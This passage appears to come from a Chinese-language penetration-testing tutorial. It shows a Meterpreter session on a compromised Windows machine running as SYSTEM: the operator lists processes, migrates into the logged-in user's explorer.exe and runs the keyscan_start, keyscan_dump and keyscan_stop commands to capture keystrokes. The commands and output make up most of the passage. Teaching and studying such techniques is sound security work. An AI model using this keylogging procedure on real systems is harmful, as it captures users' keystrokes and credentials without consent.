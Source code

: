 现在，让我们通过使用 MeterMeter shell 的键盘记录功能记录击键，并使用以下命令进一步了解此活动，这些命令可能会从我们的目标显示一些有用的数据：

```
 meterpreter>getuid
    Server username: NT AUTHORITYSYSTEM
    meterpreter>ps
    Process list
    ============

     PID   Name              Arch  Session  User                          
Path
     ---   ----              ----  -------  ----                          
----
     0     [System Process]
     4     System            x86   0        NT AUTHORITYSYSTEM
     384   smss.exe          x86   0        NT AUTHORITYSYSTEM           
SystemRootSystem32smss.exe
     488   csrss.exe         x86   0        NT AUTHORITYSYSTEM           
??C:WINDOWSsystem32csrss.exe
     648   winlogon.exe      x86   0        NT AUTHORITYSYSTEM           
??C:WINDOWSsystem32winlogon.exe
     692   services.exe      x86   0        NT AUTHORITYSYSTEM           
C:WINDOWSsystem32services.exe
     704   lsass.exe         x86   0        NT AUTHORITYSYSTEM           
C:WINDOWSsystem32lsass.exe
    ...
    148   alg.exe           x86   0        NT AUTHORITYLOCAL SERVICE    
C:WINDOWSSystem32alg.exe
    3172  explorer.exe      x86   0        CUSTDESKsalesdept
C:WINDOWSExplorer.EXE
    3236  reader_sl.exe     x86   0        CUSTDESKsalesdept
C:Program FilesAdobeReader 9.0ReaderReader_sl.exe 
```

在这个阶段，我们将把 MeterMeter 外壳迁移到`explorer.exe`进程（`3172`，以便使用以下命令开始记录系统上的当前用户活动：

```
 meterpreter> migrate 3172
    [*] Migrating to 3172...
    [*] Migration completed successfully.
    meterpreter>getuid
    Server username: CUSTDESKsalesdept
    meterpreter>keyscan_start
    Starting the keystroke sniffer... 
```

我们现在已启动键盘记录器，需要等待一段时间才能获取记录的数据块：

```
 meterpreter>keyscan_dump
    Dumping captured keystrokes...
    <Return> www.yahoo.com <Return><Back> www.bbc.co.uk <Return>
    meterpreter>keyscan_stop
    Stopping the keystroke sniffer... 
```

